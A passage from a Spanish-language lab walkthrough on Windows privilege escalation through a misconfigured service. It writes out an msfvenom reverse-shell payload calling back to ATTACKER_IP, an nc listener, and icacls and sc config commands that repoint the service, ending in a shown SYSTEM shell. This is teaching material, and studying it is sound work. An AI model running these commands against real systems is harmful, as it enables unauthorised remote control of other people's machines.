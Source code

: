 Antes de cambiarlo vamos a utilizar msfvenom para volver a cambiar el servicio original para que nos de una shell como el usuario propietario del servicio:


```
j4ckie@jackie-host$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

j4ckie@jackie-host$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Una vez hecho, hacemos lo de antes lo pasamos a la maquina victima a través de un servidor python y una vez en la maquina victima le damos permisos **Everyone** para poder ejecutar el payload.


```
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

Nos ponemos en escucha por el puerto 4447


```
nc -lvnp 4447
```

Ahora reconfiguramos el servicio existente el cual lo ejecutaremos con LocalSystem por qué es el usuario con mayores privilegios disponibles en la máquina, pero podriamos utilizar cualquier usuario que este en **Everyone.**

```
sc config J4ckieService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

Reiniciamos el servicio


```
C:\> sc stop J4ckieService
C:\> sc start J4ckieService
```


```
j4ckie@j4ckiehost$ nc -lvp 4447
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM
```

[Windows Privilege Escalation / Insecure Service PermissionsMedium](https://medium.com/@orhan_yildirim/windows-privilege-escalation-insecure-service-permissions-e4f33dbff219)

## Abusando de privilegios peligrosos
